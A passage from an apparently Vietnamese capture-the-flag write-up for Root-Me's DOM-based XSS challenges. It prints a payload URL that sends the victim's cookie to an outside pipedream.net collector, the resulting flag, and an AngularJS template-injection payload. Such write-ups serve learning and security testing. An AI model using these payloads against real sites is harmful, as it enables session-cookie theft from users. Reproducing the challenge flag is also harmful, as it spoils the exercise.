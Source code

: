 - Gửi cookie qua server của ta:

```
http://challenge01.root-me.org/web-client/ch32/index.php?number=';document.location.href='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?flag='.concat(document.cookie);//
```

- Result:

![1](1/../img/13/Screenshot%20from%202023-01-11%2011-48-15.png)

```
Flag:  rootme{XSS_D0M_BaSed_InTr0}
```


# 14. XSS DOM Based - AngularJS

- Thử XSS với: `{{$on.constructor("alert(1)")()}}` thì bị dính:

![1](1/../img/14/Screenshot%20from%202023-01-27%2011-46-47.png)
